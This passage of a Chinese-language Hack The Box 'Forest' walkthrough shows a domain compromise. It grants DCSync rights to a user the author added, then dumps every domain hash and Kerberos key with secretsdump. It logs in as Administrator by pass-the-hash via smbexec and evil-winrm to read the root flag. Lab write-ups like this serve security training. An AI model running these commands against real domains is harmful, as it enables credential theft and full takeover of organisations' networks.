Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity feng -Rights DCSync
```


使用secretsdump.py导出hash：

```shell
python3.10 secretsdump.py  'htb/feng:feng123!@10.10.10.161' -just-dc
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
john:9601:aad3b435b51404eeaad3b435b51404ee:44f077e27f6fef69e7bd834c7242b040:::
feng:9603:aad3b435b51404eeaad3b435b51404ee:3370fea3f075d9886a7d5423f71a43a7:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:b919ab842393a15fd3880cf86d01520b:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
john:aes256-cts-hmac-sha1-96:d62a736f49f88defdf75b0d9dde229c06e610deab92f16551e66f4a48c034aaf
john:aes128-cts-hmac-sha1-96:cc9cf4f03dd5bc20ce617ce19a6c0f1d
john:des-cbc-md5:b5b657cdc86d2668
feng:aes256-cts-hmac-sha1-96:cb11a21a7d41871ed08d4e1288a29bdc067b1a8ec1769f51ce8489c177cb3997
feng:aes128-cts-hmac-sha1-96:781ef225ff183c682e660f57e5064410
feng:des-cbc-md5:576b2061ce137a1a
FOREST$:aes256-cts-hmac-sha1-96:50868686726e560b5e0e00124a4fbe5d29ccee10f29773dbfcca3e8158aa55c9
FOREST$:aes128-cts-hmac-sha1-96:b8fb2ea7812028deb096010c2e79412e
FOREST$:des-cbc-md5:c8132fbf73c71fa8
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```

```shell
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

接下来可以通过evil-winrm或者psexec、smbexec等进行登陆：

```shell
15:24:18 › python3.10 smbexec.py htb.local/Administrator@10.10.10.161 -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>type \users\administrator\desktop\root.txt
93192a98bb7a5d7b311df507e99c9683

```

```shell
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

最后把用户删掉，公共环境还是别恶心别人：

```shell
net user feng /delete /domain
```

